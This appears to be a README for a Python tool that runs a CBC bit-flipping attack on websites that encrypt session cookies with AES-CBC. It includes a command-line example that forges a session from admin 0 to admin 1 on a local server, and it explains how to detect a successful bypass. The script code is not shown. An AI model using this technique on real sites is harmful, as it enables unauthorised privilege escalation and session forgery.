 # Project description

This script uses byte reversal to attack websites that use AES-CBC mode to encrypt the session.

# Usage

Run on the command line with the necessary parameters

example:
```python
python3 cbcBitFlipping.py \
--url "http://127.0.0.1:9091/read" \
--session "76xobRieNsQtbEbN8RFt6lyzY5qChDQWRW4meH3WrL/ELv5GBB7vktl5Kb+NEkMeBK7EXXruHJvjT70mDFJWig==" \
--old '{"admin": 0, "username": "user1"}' \
--new '{"admin": 1, "username": "user1"}' \
--param filename test.txt \
--delay 0.1 \
--success-substring "File not found."
```


Enter the original session content at the --old parameter and the desired tampered session content at the --new parameter.

If necessary, enter the parameters and values you want to attach to the --param parameter.

Type the keyword included in the returned packet after successfully bypassing forensics at success-substring to make it easier for the script to identify which rollover attack was successful.

# Acknowledgments

My Computer, ChatGPT-o1

# Effective demonstration

<img width="947" alt="image" src="https://github.com/user-attachments/assets/24ea0366-9e65-4f89-a189-7133e885fcf8" />

